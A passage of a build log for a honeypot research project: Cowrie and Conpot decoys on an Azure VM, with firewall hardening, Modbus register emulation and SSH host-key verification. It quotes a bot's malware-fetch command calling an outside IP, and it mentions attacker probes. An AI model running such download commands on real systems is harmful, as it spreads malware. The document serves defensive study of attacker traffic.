

# Build log

A step-by-step record of everything I did for the setup, since this is all
configurations, no code.

Bloopers included

## The machine

| | |
|---|---|
| Provider | Microsoft Azure (Azure for Students — $100 credit, academic email, no card) |
| Region | Austria East |
| Size | B2ats_v2 (2 vCPU, 1 GB RAM, ARM) |
| Disk | Premium SSD P6 |
| OS | Ubuntu 24.04 LTS |
| Security type | Trusted launch, integrity monitoring on |
| Public IP | Static, so the address does not change mid-collection |
| Resource group | `deception-grid` — everything is inside it, so teardown is a single step |

Only one machine, and both decoys sit behind the same address. This is so that
the IT-door and OT-door traffic are directly comparable. Two machines would mean
two different addresses with two different discovery histories, which is apples
to oranges.

## Mistakes made

**Hetzner abandoned.** Chosen because it was the cheapest. It wanted my credit
card details and then asked for a €25 deposit for 'identification' (!?!), so I
stopped and looked for alternatives.

**The Azure for Students "free VM" offer is Windows Server only.** I have a
student email, and want to do the Azure certs as well. Its image list has no
Linux in it, so chose Ubuntu 24.04 under the *Create a virtual machine* flow.
$100 free student credit.

**Tried multiple regions before one worked.** Germany West Central had no
B-series capacity. Sweden Central was refused by the subscription's own region
policy. Austria East worked. About 40 minutes lost D':.

## The admin address problem

Discovered the morning after the build: SSH timed out. Nothing was wrong with
the machine — the admin rule allows exactly one source address, and a
residential connection had been given a new one overnight.

The two addresses were not neighbours. They sat in unrelated ranges, which
rules out the obvious fix of allowing the provider's block. Time to diagnose,
knowing what to look for: about 20 minutes. "Timed out" rather than "refused"
was the clue that mattered — a refusal means the host answered, a timeout
means nothing did.

The choice was between three options: rewrite the rule each session, widen it
to something permanent and looser, or automate it. Automating it keeps the
strictest version of the control and removes the operational cost that would
eventually have argued for weakening it. See `scripts/allow-me.ps1`.

A control that is expensive to comply with gets bypassed, and the bypass is
usually invisible until something goes wrong. The cheapest way to keep a strict
rule is to make obeying it take one command.

## The decoys

Cowrie `3.0.16.dev4+g9dc1ea8f3`, cloned from `main` on 25 September 2026. The
commit is recorded because a version number alone would not let anyone repeat
this.

Installed under a dedicated `cowrie` user with no password, no `sudo` and a
single group. The account was removed from the `users` group that `adduser`
adds by default, after checking that nothing on the machine was owned by that
group — a group is only a privilege if something belongs to it. The one
program here that exists to be attacked is the one with the least to escape
into.

Three things about this project's layout have moved since most guides were
written, and each cost time:

- Defaults live at `src/cowrie/data/etc/cowrie.cfg.dist`, not `etc/`.
- There is no `bin/cowrie`. The launcher is a console script declared in
  `pyproject.toml`.
- `pip install -r requirements.txt` installs what Cowrie depends on. It does
  not install Cowrie. `pip install -e .` is a separate, necessary step, and
  editable so a later `git pull` takes a security fix without reinstalling.

### Configuration is two small files, not an edited copy

`etc/cowrie.cfg` holds only what differs from the shipped defaults. The
defaults are never edited in place: a `git pull` would overwrite them and take
the changes with it. It sets two things — the hostname, because Cowrie's
shipped `svr04` is a known fingerprint visible on every prompt, and telnet,
which ships disabled.

`etc/userdb.txt` names the five credentials the decoy accepts: `root` with
`123456`, `password`, `admin`, `1234` or `root`, and nothing else. Two denial
rules above them refuse the self-referential passwords scanners use to detect
honeypots.

That file matters more than its size. Without it Cowrie falls back to
undocumented built-in defaults, and since the accepted set decides who gets
inside, it is the independent variable of the whole study. Choosing five of
the most-attempted passwords deliberately is what makes "how often would
common-password guessing have succeeded" a measurable result rather than an
artefact. A narrow list also refuses random passwords, which is the check some
scanners use to identify a decoy.

Failed attempts are logged in full either way, so credential-stuffing volume
does not depend on this choice.

**One consequence to state wherever the success figure appears.** Because this
list decides who gets in, the number of successful logins measures *this
configuration*, not attacker skill. The five credential pairs that succeeded
over the first four days are exactly the five in this file. The claim that does
not depend on our choices is how many distinct sources tried one of them.

## Going live

### systemd socket activation, not authbind

Cowrie needs ports 22 and 23; Linux reserves everything below 1024 for root;
and running a honeypot as root is not acceptable. Two solutions exist and
systemd's is better, because it also solves starting on boot:

systemd binds the privileged ports as root and hands the already-open sockets
to an unprivileged process. One mechanism, two problems, nothing running
privileged. `ss` shows both `systemd` (pid 1) and the Python process holding
each port, which is the mechanism made visible.

`cowrie.cfg` refers to the sockets by index — `index 0` is the first
`ListenStream` line, `index 1` the second. Reorder them in `cowrie.socket` and
the two decoys silently swap ports. Both addresses are written as `0.0.0.0:22`
and `0.0.0.0:23` rather than bare port numbers, because relying on
address-family defaults is what nearly locked this machine out on Wednesday.

Three deliberate changes from the units Cowrie ships under `docs/systemd/`:

| Change | Why |
|---|---|
| Paths point at the honeypot user's home | Upstream assumes `/opt/cowrie`. Copying its paths unchanged is the most common reason this unit fails |
| `journal`, not `syslog` | The syslog target is deprecated; the journal gives `journalctl -u cowrie` |
| `--nodaemon` | A service that forks looks to systemd like one that exited, and `Restart=always` would fight it forever |

### Proved across a reboot, before anything was opened

`systemctl reboot`, then confirmed the service came back on its own and all
three ports rebound. This also tested something never previously verified:
that the move of real SSH to port 62222 survives a restart. It does. Testing
that with no data on the machine, in daylight, was the point of doing it
before going live rather than after.



Ports 22 and 23 each show two processes holding them — `systemd` as pid 1 and
the Python process holding a handed-down copy. That is socket activation, and
it is why nothing in the honeypot runs privileged.

### Order of opening

Inner layer first: `ufw allow 22,23/tcp`, each rule carrying a comment, since
an unexplained `ALLOW Anywhere` in November is indistinguishable from a
mistake. Then the Azure rule via the CLI.

A UTC timestamp was taken immediately before the second command, because
time-to-first-contact can only be measured once:

```
firewall opened         2026-09-25 08:01:20 UTC
first contact           2026-09-25 08:02:03 UTC   43 seconds, telnet
first successful login  2026-09-25 08:10:04 UTC   8m44s, root/root
```

Port 22 was separately confirmed reachable from an external address the same
morning, so the fact that every early arrival came in on telnet is a property
of the traffic rather than a fault in the setup. See `first-contact.md` — and
note that the telnet-only pattern did **not** survive contact with four days of
data; it was forty minutes of it.

### The log rotates, which changes how you read it

`cowrie.json` holds the current day only. Previous days roll into
`cowrie.json.YYYY-MM-DD`. This is worth stating in a build log because not
knowing it produced every wrong figure in the project's first week: analysis
read the current-day file and reported it as the whole collection, so 14,845
events and 93 sources were really one partial day out of five, against 201,349
and 967 across all of them.

Anything that reads the log must glob `cowrie.json*`, and anything that reports
a total should print which files it read. `analysis/ingest.py` and
`/usr/local/bin/decoy-status` both do.

## The OT decoy

Conpot, installed 25 September 2026, under its own `conpot` user with no
password, no `sudo` and a single group — the same isolation as Cowrie, for the
same reason.

### It needs a newer Python than the machine has

Conpot released **1.0.0 on 20 September 2026**, five days before this install.
It is a platform rewrite, not a point release: asyncio in place of gevent,
templates in TOML instead of XML, `pymodbus` underneath, and structured JSON
logging with source address and port as named fields. Every Conpot guide
written before that date describes software that no longer exists.

Three obstacles, in the order they appeared:

**PyPI still serves 0.6.0, and 0.6.0 must not be used.** It pulls in `enum34`,
a Python 2 backport that installs a package called `enum` and shadows the
standard library on Python 3, and `pycrypto`, unmaintained for years with
known vulnerabilities. Neither belongs on an internet-facing machine.

**1.0.0 refuses to install on Python 3.12.** It requires 3.14; Ubuntu 24.04
ships 3.12.3:

```
ERROR: Package 'conpot' requires a different Python: 3.12.3 not in '>=3.14'
```

**The fix is a standalone Python, not a system one.** `uv` installs CPython
3.14.7 into the decoy user's own home in about a second. No root, no PPA, the
system Python untouched, and therefore Cowrie unaffected. Conpot's own
documentation recommends uv, which is why this was chosen over Docker: one
extra daemon on a 1 GB machine, and an awkward fit with the systemd socket
activation already in use, bought nothing here.

```
curl -LsSf https://astral.sh/uv/install.sh | sh
uv python install 3.14
uv venv --python 3.14 conpot-env
uv pip install "conpot @ git+https://github.com/mushorg/conpot@v1.0.0"
```

### The version string is wrong

The installed package reports **0.6.0**, and its CLI banner still offers a
`--mibcache` flag for a feature the 1.0.0 notes say was removed. It is
nonetheless the rewrite: the dependency set is `aiohttp`, `bacpypes3`,
`pymodbus`, `cm-ethernetip`, with no gevent and no enum34, and the templates
are TOML rather than XML. The release simply did not bump the version.

**The commit hash is the only trustworthy identifier**, exactly as for Cowrie.
Note also that `pip` and `uv` resolved the `v1.0.0` tag to different commits
(`971bf0f2…` and `c9245e6c…` respectively); the installed build is the latter.

### Template

`plc_modbus` — a device description and a Modbus register map, and nothing
else. The shipped `default` template enables nine protocols at once, and a
single device answering BACnet and S7 and Modbus and FTP is not something that
exists in a real plant. The controlled comparison this project rests on is
worth more than the extra traffic.

### What the live test found

Tested on the default high port with both firewall layers still closed, using
raw Modbus frames sent over a socket rather than a client library, so the
results describe the wire rather than somebody's implementation.

**The framing works.** `mode = "serial"` in the template does not break
Modbus/TCP. A standard MBAP-framed read returned a correctly formed exception
(`83 02`, illegal data address), and a device-identification request returned
the three configured strings length-prefixed, as a real controller would. This
was the main risk and it is retired.

**Five defects in the shipped template.** Four are fixed and verified as of
29 September 2026; the fifth is the move to port 502, which is scheduled with
the opening of the OT door on 6 October.

| Defect | Why it matters | Status |
|---|---|---|
| `vendor = "Conpot"` in `template.toml` | The decoy's identity block is labelled with the name of the honeypot software | Fixed — WAGO 750-8202, confirmed on the wire |
| Registers answer at `40001`, `30001`, coil `1`, and return *illegal data address* at `0` | `40001` is the **documentation** convention; on the wire, holding register 40001 is address `0`. A scanner reading from zero gets only errors — lost data, and a tell, since real controllers answer low addresses | Fixed — all four blocks at `0`, reads confirmed |
| Every register reads zero, unchanged over four reads in thirty seconds | The four blocks are declared static: `value = "[0 for b in range(0,8)]"`, and `core/databus.py` evaluates a `value` expression once. A controller whose registers never move is not controlling anything | Fixed — own emulator module, movement confirmed on the wire |
| Fetches its own public address from an external service on startup | An outbound connection from the VM, which this project's scope explicitly excludes. See the correction in `rules-of-engagement.md`. A far larger instance of the same problem was later found in Cowrie — see *Stopping the decoys reaching out* below | Fixed twice over: the setting is disabled, **and** that firewall rule now covers conpot's uid as well, which it did not at first |
| Listens on 5020, not 502 | The whole OT argument depends on the real Modbus port. 502 is privileged, so it needs systemd socket activation | Open — scheduled for 6 October |

Also worth changing: Conpot created its temporary filesystem inside its own
installed package directory. `--temp_dir` should point somewhere that is not
`site-packages`, so that reinstalling does not tangle with runtime state.

An earlier version of the table above said `PlcScanCycle` was "configured to
animate the registers and does not". That was wrong, and wrong in the way this
project keeps having to correct: a cause asserted without reading the thing that
would confirm it. `plc_scan` is its own databus key and no block's `content`
field points at it. It was never connected to the registers. They were static
because the template declared them static.

### Binding port 502 — the plan changed

Recorded because the earlier plan is written down elsewhere and is now wrong.

The plan was **systemd socket activation**, the mechanism already used for
Cowrie's 22 and 23. That was an assumption. Cowrie supports inherited sockets
explicitly — `cowrie.cfg` refers to them by index — and **nothing establishes
that Conpot 1.0.0 does.** Building on an unverified application feature is how
several of this project's errors started, so it was dropped rather than tested.

`conpot.service` uses **`AmbientCapabilities=CAP_NET_BIND_SERVICE`** instead. It
needs no support from Conpot at all: one capability, bind a port below 1024,
nothing else, with `CapabilityBoundingSet` limiting the process to that single
capability and `NoNewPrivileges=yes` stopping it acquiring more. The decoy still
runs as the `conpot` user.

A third option — redirecting 502 to 5020 with a firewall rule — was rejected on
**analysis** grounds rather than security ones. The redirect would make the
logged `dst_port` read 5020, and this entire project is a comparison of the IT
door against the OT door *by `dst_port`*. The port a scanner knocked on is the
finding; a rule that rewrites it destroys the measurement.

`modbus.toml` now says `port = 502`. That exposes nothing on its own: 502 is
closed in the Azure NSG and in ufw, and opening those is a separate, dated act.
Splitting it this way means the configuration change is tested on its own, and
6 October becomes nothing but opening two firewall layers.

### The analysis had to learn about a second decoy

Conpot names almost nothing the way Cowrie does. Checked against the real log
rather than assumed — these are the field mappings, and every one of them would
have been a silent NULL if guessed:

| Cowrie | Conpot |
|---|---|
| `timestamp` | `event_time` (`session_time` is the session's start) |
| `eventid` | `event_type`, upper-case: `NEW_CONNECTION`, `MODBUS_REQUEST` |
| `sensor` | `sensorid` |
| `session` | `session_id`, a uuid rather than short hex |
| `input` | `request`, the raw Modbus bytes |
| `username` / `password` | *nothing* — Modbus has no authentication, which is the point |

Two of those needed more than a rename.

**`event_type` is `null` on exactly the records that matter.** `NEW_CONNECTION`
and `CONNECTION_LOST` carry it; the protocol records — the ones holding
`slave_id` and `function_code` — have `"event_type": null` and no other field
naming the event. Left alone, every Modbus request would be recorded as
`conpot.none`: the most interesting events at the OT door all sharing one
meaningless label. The event is synthesised from `protocol` instead, giving
`conpot.modbus_request`.

Worth noting *how* this was nearly missed. A key census run over the log
reported `event_type` present in 30 of 30 records — which is true. The key is
always there; the value is null. **Counting keys is not reading values**, and
the same mistake in a different costume as counting events without reading rows.

**`request` and `response` are Python `bytes` reprs stored as JSON strings.** The
log literally contains `"b'000100000006010300000008'"` — the `b`, the quotes, all
of it as characters. Unwrapped once on the way in rather than at every point of
use, because otherwise something eventually compares `b'0103'` against `0103` and
finds no match. `raw` keeps the original, so the transformation is auditable.

Both decoys go into **one** facts table. `ingest.py` normalises Conpot's records
into Cowrie's shape; `eventid` carries a `conpot.` prefix so a row always says
which door it came from. Two tables would have made every cross-door question a
join and given the exclusion rules two places to disagree.

The OT log is treated as **optional but never silently absent**: if nothing
matches the glob, the run prints `NOTHING MATCHED`. "No OT events" and "nobody
read the OT log" are different findings.

#### A bug this testing found, in the project's central claim

Every arrivals figure in the analysis filtered on
`eventid = 'cowrie.session.connect'`. Conpot's arrival is `NEW_CONNECTION`. So
query 4 — titled *Arrivals per door* — **counted one door**, and would have
reported the OT door as having no traffic at all for as long as anyone believed
it. The headline figure, the per-day rate, the busiest-sources table and the
country percentages all shared the same filter.

Fixed with a `v_arrivals` view that names both event types in one place, so a
third decoy is one line rather than a hunt through the queries. Query 8 now also
shows which doors each source tried, because one address knocking on **both** is
the single most interesting row this project can produce and counting the doors
separately would hide it.

Three new standing queries: what arrived at the OT door, which Modbus function
codes were requested — reads are reconnaissance, functions 5, 6, 15 and 16 are
**writes**, which on real plant means an attempt to operate it, and 43 is vendor
fingerprinting — and the IT-versus-OT comparison itself, with a note that the
denominators differ because the doors opened eleven days apart.

### The identity question, settled

The shipped device — Schneider Electric, Modicon M340, BMXP342020 — is a real
and plausible PLC for a small manufacturer. It is also Conpot's default, so
every unmodified Conpot on the internet claims to be the same M340 with the
same four blocks of exactly eight registers at the same addresses. Keeping it
means blending in with other honeypots rather than with real plants.

**Chosen instead: a WAGO Kontakttechnik 750-8202**, firmware `FW14`. It speaks
Modbus/TCP natively and is ordinary equipment in a small European plant, which
is the scenario this project is about. Verified on the wire: a Read Device
Identification request returns `WAGO Kontakttechnik`, `750-8202` and `FW14`
length-prefixed, not merely written in a config file.

UMAS was disabled at the same time. It is Schneider's proprietary protocol, and
a device claiming a WAGO identity while answering UMAS is a contradiction a
scanner can check — a reply from a vendor that has never implemented it. An
identity has to be coherent all the way down or it is a costume.

### Animating the registers

Fixing this took reading Conpot's source rather than guessing, which is worth
recording because the shortcut looks correct.

`core/databus.py` evaluates a template's `value = "..."` expression **once**, at
initialisation, and stores the result. It also imports `random` at module level,
with the comment *"this is needed because we use it in template value
expressions"* — so `value = "[random.randint(0,100) for b in range(0,8)]"` is
legal. It is also still evaluated once. The registers come out non-zero and then
never change again. That is worse than the zeroes, because it looks fixed.

Animation works only through `function = "module.Class"`. `databus.get_value()`
checks the stored object for a `get_value` attribute and calls it on **every**
lookup. Nothing shipped in Conpot 1.0.0 could be used:

| Candidate | Why not |
|---|---|
| `misc.random.Random8BitRegisters` | Right shape — eight bits — but fresh random per read. A scanner polling twice, three seconds apart, sees a plant where all eight digital outputs flipped. Noise is as obviously fake as zero, just at one level up |
| `misc.random.Random16bitRegister` | Returns a list of **one** value, in range **0–1**. The register blocks are eight 16-bit words and a 16-bit register holds 0–65535. Wrong length and a meaningless range; it reads like a bug rather than a design choice |
| `misc.sysinfo.*` | Report the **host's real state** — `CpuLoad`, `TotalRam`, `BytesSent`, `LocalIP`. They exist for the SNMP template, where a network device is meant to report its own interfaces. Wiring one to a Modbus register would publish this VM's private address and traffic counters to anyone who reads holding registers |

So the decoy carries its own emulator module, `emulators/deception_grid/plant.py`,
with four design decisions:

- **A scenario.** A small heating and water circuit — two pumps, one duty and
  one standby, a mixing valve, a buffer tank. Ordinary duty for a WAGO 750-8202,
  and consistent with the identity already on the wire.
- **Every value is a function of `time.time()`, never of call count.** Two reads
  a second apart agree; reads minutes apart differ. That is what an instrument
  does. A small noise term is added to the analogue values only, because a real
  ADC reading the same sensor twice genuinely does differ slightly.
- **The blocks are internally consistent.** Flow, motor speed and pump current
  collapse to near-zero when the coils say no pump is running, and the flow
  switch in the discrete inputs follows the pump commands in the coils. A decoy
  reading *pumps off, flow 90 L/min* is a worse tell than one reading all zeros,
  because it is a contradiction rather than an absence.
- **Counters run from a commissioning date, not from process start.** Pump
  run-hours reads about 13,850 and the start counter has wrapped twice. A
  controller installed this morning is not what this is pretending to be.

There is also a night setback: the supply-temperature setpoint drops from
65.0 °C to 61.0 °C between 22:00 and 05:00 UTC.

Values are scaled integers, the usual Modbus convention, since a register holds
no decimal point — ×10 for temperatures, flow and tank level, ×100 for pressure
and current, ×1 for speed and counters.

### Verified on the wire, 29 September 2026

One thing the source could not settle: `databus.get_value()` calls `get_value()`
on every lookup, but that only animates anything if the **Modbus handler asks
the databus per request** rather than snapshotting it at startup. Tested rather
than reasoned about — all four blocks read twice, thirty seconds apart, with raw
MBAP frames over a socket:

```
=== read 1 ===
    coils           [1, 0, 1, 0, 0, 0, 0, 0]
    discrete inputs [1, 0, 1, 1, 0, 1, 1, 0]
    input registers [1133, 629, 449, 218, 820, 852, 128, 1458]
    holding regs    [650, 220, 250, 900, 13877, 36803, 1, 0]

=== read 2, thirty seconds later ===
    coils           [1, 0, 1, 0, 0, 0, 0, 0]
    discrete inputs [1, 0, 1, 1, 0, 1, 1, 0]
    input registers [1088, 639, 455, 226, 817, 788, 129, 1428]
    holding regs    [650, 220, 250, 900, 13877, 36803, 1, 0]
```

**The handler does ask per request.** The input registers moved, so the
animation reaches the wire.

The other three reading `IDENTICAL` is the correct result, not a partial
failure, and the distinction is worth stating because a careless reading of this
table would call it a 25% success rate:

- **Coils and discrete inputs** are driven by 15-to-90-minute cycles. Two reads
  thirty seconds apart *must* agree. A plant whose digital outputs changed
  every thirty seconds would be the tell this design exists to avoid.
- **Holding registers** are setpoints, alarm limits, a mode word and two
  counters. The setpoints are constant by definition; run-hours advances once an
  hour and the start counter every eight minutes. Unchanged over thirty seconds
  is what a real controller does.

The analogue movement is also the right *size*. Flow 113.3 → 108.8 L/min, speed
1458 → 1428 rpm, current 8.52 → 7.88 A, supply 62.9 → 63.9 °C. Small, smooth,
and correlated — flow, speed and current fall together, as they do on a pump
curve. Values that jumped randomly across their whole range every read would
have been as obviously synthetic as zeroes.

The module lives in `/home/conpot/emulators`, **not** in `site-packages`, for
the same reason the config and template were copied out of it: a
`uv pip install --upgrade` would delete it and take the decoy's behaviour with
it. `databus.py` resolves `function` with `__import__`, so any importable module
works. The cost is that the Conpot process needs
`PYTHONPATH=/home/conpot/emulators`; without it Conpot exits at startup with
`ModuleNotFoundError`, which is the failure to prefer — loud, immediate, and
impossible to mistake for a decoy that is working.

### Nothing rotates its log

Checked rather than assumed, 29 September 2026: there is no
`RotatingFileHandler` or `TimedRotating` anywhere in the installed package, and
no logrotate config ships with it. Conpot opens `conpot.json` and `conpot.log`
with a plain file handler and writes to them until something stops it.

At roughly 460 bytes per record this would not fill a 61 GB disk before the
December teardown. "It probably will not overflow" is not a design, so
`config/logrotate-deception-grid` rotates both daily, keeping 30.

Two choices in it are load-bearing and neither is obvious.

**`copytruncate`, not a rename.** Conpot holds the file open and has no way to be
told to reopen it. A plain rename would leave it writing happily into the
*rotated* file while `conpot.json` sat at zero bytes — and `decoy-status` would
report "0 records" and be correct. The cost is that a line being written at the
instant of rotation can be lost: one line a day, at midnight, against a decoy
whose entire point is volume. The alternative, restarting Conpot on every
rotation, drops live sessions and puts a gap in the collection every night.

**`nocompress`, and a second defence in code.** `ingest.py` globs `conpot.json*`,
which correctly picks up a rotated `conpot.json.1` — and would also match a
compressed `conpot.json.1.gz`, open it as text, and produce nothing usable from
it. Every line would land in `rejects` and a day of OT data would be absent from
every figure without anything failing.

So `nocompress` is set here, **and** `ingest.py` was taught to read `.gz`
transparently on the same day. Both, deliberately: the setting because it is the
simpler truth, and the code because a future change to this file — by anyone, for
a perfectly good reason — must not be able to lose data. A comment asking to be
remembered is not a control.

Cowrie is deliberately **not** in that logrotate config. Twisted rotates its log
itself, daily, producing `cowrie.json.YYYY-MM-DD`. Two mechanisms rotating one
file is how a day of data goes missing.

### Opening the door, on 6 October

Everything on the decoy side is done and verified. The remaining work is two
firewall layers and it is written out as a runbook —
`docs/opening-the-ot-door.md` — because it will be done a week after the work it
completes, and the failure modes are specific: a colliding NSG priority, ufw open
with the NSG still shut, or opening it and confirming nothing actually arrived.

## Patching, and why the usual advice needed checking

An internet-facing machine that stays up until December should be patched. The
complication specific to this build is that `/etc/ufw/before.rules` is a
distribution file: a `ufw` or kernel upgrade can replace it and silently remove
the outbound block, which is why `decoy-status` re-checks that rule on every run.

So the question is not "patch or not" but *does this particular set of updates
touch the firewall path*. On 29 September 2026 the five pending updates were
`apparmor`, `libapparmor1`, `dmidecode`, `libaudit-common` and `libaudit1` — no
`ufw`, no kernel, no reboot required. Safe to apply.

The generalisable part: **check what is in the update set rather than reasoning
about updates in the abstract.** The risk here is real and specific, and it did
not apply to these five. It will apply to some later set, and `decoy-status` is
what will catch it.

## Known limitations

**The fake user is Cowrie's default.** `/etc/passwd` in the imitation contains
`phil:x:1000:1000:Phil California`, which is a fingerprint in the same way
`svr04` was. It was left in place deliberately. The filesystem pickle also
contains `/home/phil`, so overriding only `/etc/passwd` would make the
imitation incoherent — a user list disagreeing with the home directories is
more visible to a careful attacker than a default username. Fixing it properly
means rebuilding a 1.2 MB pickle, which was not worth delaying collection for.
Recorded rather than hidden.

**The imitation held further than first thought — corrected 29 September.** An
earlier version of this section said the decoy was "good enough to be probed,
not always good enough to be infected", because the first successful visitor
ran a full infection sequence and left without delivering a payload, and had
probably failed the `/bin/busybox HISILICON` liveness check. Four days of data
contradict both halves. That check was **accepted 1,471 times**, and 33 sessions
did fetch a payload — 81 successful fetches, 33 distinct files, from 8 hosts.
The only commands ever rejected were `enable`, `shell` and `system`, which are
router words absent from the emulated shell; `sh`, busybox, the injection probe
and the writable-directory hunt were all accepted.

What the dataset genuinely cannot support is a claim about what attackers *run*,
because nothing is ever executed. See `first-contact.md` for the stage counts.

**Counts are not comparable unless you know what the rows are.** Five separate
figures in this project were wrong for the same reason — an aggregate reported
before anyone looked at the rows behind it. Two cases worth knowing about before
reading any number here: `cowrie.session.file_download` covers three different
things (a network fetch, an SCP push, and a captured shell redirection) and only
those with a `url` field are fetches; and an event count per port is not an
arrival count, which overstated arrivals roughly fivefold. Details in
`rules-of-engagement.md` and `first-contact.md`.

**Loopback and the analyst's own address are in the log.** Local testing on
25 September produced sessions from `127.0.0.1`, and the external port-22
check produced one from the analyst's home address. Both are excluded at
ingest, and the exclusion is stated in the write-up rather than done quietly.
The analyst's addresses change, so `analysis/exclude-ips.txt` is a list on the
sensor that is topped up each time — see `analysis/exclude-ips.txt.example`.

**`dst_ip` is the private address.** Azure translates, so every log line shows
`172.16.0.4` rather than the public address. Identify the sensor by the
`sensor` field.

## Hardening, in order

1. `sudo apt update && sudo apt full-upgrade -y`
2. Reboot. A kernel upgrade was pending; patched but not rebooted is not
   patched. (`uname -r` after: `7.0.0-1014-azure`)
3. 1 GB swap file. 1 GB of RAM has to run two Python services plus an hourly
   job.
4. Move real SSH to port 62222 — see the next section, this is where things went
   awry
5. Network security group: allow 62222 from my own address only.
6. Network security group: delete the port-22 rule. Port 22 now belongs to the
   decoy, not to me.
7. Host firewall: `ufw default deny incoming`, `ufw allow 62222/tcp`.

Then, before closing anything: opened a **third** shell on 62222 from scratch
and confirmed it logged in. Lesson learnt: never close a working session till
the new one is confirmed to work.

## The near-lockout, or trust no one

Ubuntu 24.04 uses socket activation for SSH. `Port` in
`/etc/ssh/sshd_config` is **ignored**. The listening port lives in the socket
unit. First attempt, via `sudo systemctl edit ssh.socket`:

```
[Socket]
ListenStream=
ListenStream=62222
```

`ss -tlnp` showed 62222 listening on IPv6 **only**. The shipped `ssh.socket`
sets `BindIPv6Only=ipv6-only`, and a bare `ListenStream=62222` inherits it.
Over IPv4 — the only way I actually reach the machine — nothing was answering.
Port 22 was about to be shut. Closing that session would have made the server
unreachable with no console fallback configured.

Caught it by being paranoid and reading the `ss` output instead of assuming
the restart had worked. Tip: name both address families explicitly:

```
[Socket]
ListenStream=
ListenStream=0.0.0.0:62222
ListenStream=[::]:62222
```

Then `sudo systemctl daemon-reload && sudo systemctl restart ssh.socket`, and
confirm all four listeners are present in `ss -tlnp | grep 62222` **before**
closing anything.

## Two firewalls

- **Network security group** (at Azure, outside the machine): *who* may reach
  it. Admin port is restricted to one address.
- **ufw** (on the machine): *what* it will answer. Default deny, with only the
  ports that have a reason to be open.

A misconfiguration in one still leaves the other, so each decoy port has to be
opened in **both** layers. Cowrie on 22 and 23, Conpot on 502 — a rule at Azure
*and* a `ufw allow`. Forgetting the second is the most likely reason that a
decoy would look dead when it is running fine. Check here first.

## Connecting to the sensor, and the warning that means you reached the decoy

29 September 2026. A laptop restart ended a working SSH session. Reconnecting
with the obvious command produced this:

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!      @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
...
Offending ECDSA key in .../known_hosts:3
Host key verification failed.
```

**Cause: Cowrie owns port 22 on this machine.** That is the whole design. An
`ssh user@host` with no port goes to 22 by default, so the connection reached
the honeypot, which offered its own SSH host key — a key the client had never
seen. The client refused. Nothing had changed on the server and nothing was
wrong with the account.

Worth recording as a result rather than only as a mishap: the decoy is
convincing enough at the protocol level that a real SSH client completed
key exchange with it before deciding it did not like the key. The thing that
caught it was strict host-key checking, not anything about the honeypot being
unconvincing.

### The procedure, which matters more than the incident

A changed host key has two possible causes and they are not close together:

| | |
|---|---|
| Benign | The server regenerated its keys, was rebuilt, or is offering a key type the client has no record of |
| Not benign | Something else is answering at that address — and Azure reassigns dynamic public addresses, so a deallocated VM's address can end up on a stranger's machine |

The second case is the reason the answer is never "delete the line and
reconnect". Typing a password or forwarding an ssh-agent into an unknown host
hands over credentials. On a project whose premise is that people probe
machines they do not own, this is not hypothetical.

**A changed host key is verified out of band** — through a channel that is not
the suspect connection. Azure's control plane is that channel, and the sequence
used here was:

1. **Does the address still belong to us, and is the VM up?**

```
az vm list -d --subscription $DECOY_SUBSCRIPTION \
  --query "[].{name:name, rg:resourceGroup, ip:publicIps, power:powerState}" -o table
```

Confirmed `decoy-01`, running, still holding the same address. That alone
retires the dangerous case: nothing else was at that address.

2. **What are the machine's real host keys, and when were they made?**

```
az vm run-command invoke --subscription $DECOY_SUBSCRIPTION \
  -g DECEPTION-GRID -n decoy-01 --command-id RunShellScript \
  --scripts "ssh-keygen -lf /etc/ssh/ssh_host_ed25519_key.pub; \
             ls -l --time-style=full-iso /etc/ssh/ssh_host_*_key.pub"
```

The fingerprint did **not** match what the client had been offered, and the key
files were dated 2026-09-24 12:32 — the day the VM was built. So the keys had
not been regenerated, and the host that answered was not this machine's sshd.

3. **Then what did answer?**

```
az vm run-command invoke ... --scripts \
  "ss -tlnp | grep -E ':22|:23'; \
   ssh-keygen -lf /home/cowrie/cowrie/var/lib/cowrie/ssh_host_ed25519_key"
```

Ports 22 and 23 both held by `python`, handed their sockets by `systemd` —
Cowrie under socket activation, as built. And Cowrie's own host key fingerprint
matched the offered key exactly. Question closed, with evidence rather than a
plausible story.

Three commands, no guessing, and at no point was the suspect connection trusted
to describe itself.

### Two things this changed

**The stale `known_hosts` entry was removed, not overwritten.** It was an ECDSA
entry for the bare address, left over from a port-22 connection made early in
the build before Cowrie took the port. It had been describing the honeypot ever
since without anyone noticing.

**The connection command is now in the documentation.** It was already in the
*automation* — `scripts/backup.ps1` has carried `$Port = 62222` since it was
written, and has been connecting correctly for days. It was the prose that had
nothing in it, so a human reading `docs/build.md` had nothing to copy and reached
for the obvious command instead.

Worth separating from the incident, because it is a general failure: **knowledge
encoded in a script is not documentation.** The script cannot be wrong about the
port — it would stop working — which is exactly why nobody noticed the port was
undocumented. Automation that works silently hides the gap it is papering over.

Administrative SSH is on **62222**, set by a drop-in that replaces the shipped
socket's port rather than adding to it:

```
# /etc/systemd/system/ssh.socket.d/override.conf
[Socket]
ListenStream=
ListenStream=0.0.0.0:62222
ListenStream=[::]:62222
```

The bare `ListenStream=` is what clears the inherited `:22` entries. Without it
sshd would still be on 22 and could not share the port with Cowrie.

So the line to use, and the only one that appears in these notes:

```
ssh -p 62222 aster@"$DECOY_HOST"
```

An `ssh` line without the port is a line that connects to the decoy. A reader
following these notes would hit the same warning and might reasonably conclude
the sensor had been compromised.

### Deliberately not written down here

**Cowrie's host key fingerprint is not published in this repository**, and
neither is the machine's. A public note saying *this fingerprint belongs to the
Deception Grid honeypot* turns that key into a permanent identifier: anyone
scanning the address range could match it and know the machine is a decoy
without ever logging in. Honeypot fingerprinting is a real technique and there
is no reason to do the work for anyone. The fingerprints live in the private
build record only, alongside the host address and the subscription ID, for the
same reason.

## Stopping the decoys reaching out

The build as originally documented produced a sensor that made outbound
connections to attacker-controlled hosts. Anyone following these steps would
reproduce that, so the fix belongs here rather than only in the incident note.

### Why

Cowrie's `wget`, `curl` and `tftp` are not simulations. When a bot types
`wget http://45.32.215.222/iran.mips`, Cowrie fetches that file for real and
stores it under its SHA-256 in `var/lib/cowrie/downloads/`. That is how
honeypots collect malware samples and it is on by default. Between 25 and
